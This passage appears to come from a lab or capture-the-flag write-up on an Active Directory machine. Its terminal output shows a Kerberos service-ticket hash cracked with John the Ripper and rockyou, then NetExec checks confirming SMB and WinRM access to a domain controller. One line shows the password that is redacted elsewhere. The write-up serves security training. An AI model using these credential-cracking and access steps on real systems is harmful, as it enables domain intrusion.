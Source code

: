 ```
➜  delegate john N.Thompson_hash --wordlist=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
K<redacted>41       (?)
```
and lets see

    ➜  delegate nxc smb DC1 -u 'N.Thompson' -p 'K<redacted>41'
    SMB         10.10.85.108    445    DC1              [*] Windows Server 2022 Build 20348 x64 (name:DC1) (domain:delegate.vl) (signing:True) (SMBv1:False)
    SMB         10.10.85.108    445    DC1              [+] delegate.vl\N.Thompson:KALEB_2341 

## SeEnableDelegationPrivilege

![alt text](<../assets/images/Screenshot 2025-03-06 at 08-01-15 BloodHound.png>)

    ➜  delegate nxc winrm DC1 -u 'N.Thompson' -p 'K<redacted>41'
    WINRM       10.10.85.108    5985   DC1              [*] Windows Server 2022 Build 20348 (name:DC1) (domain:delegate.vl)
    /usr/lib/python3/dist-packages/spnego/_ntlm_raw/crypto.py:46: CryptographyDeprecationWarning: ARC4 has been moved to cryptography.hazmat.decrepit.ciphers.algorithms.ARC4 and will be removed from this module in 48.0.0.
    arc4 = algorithms.ARC4(self._key)
    WINRM       10.10.85.108    5985   DC1              [+] delegate.vl\N.Thompson:K<redacted>41 (Pwn3d!)

its about it 

lets see we can add computer i think its about it
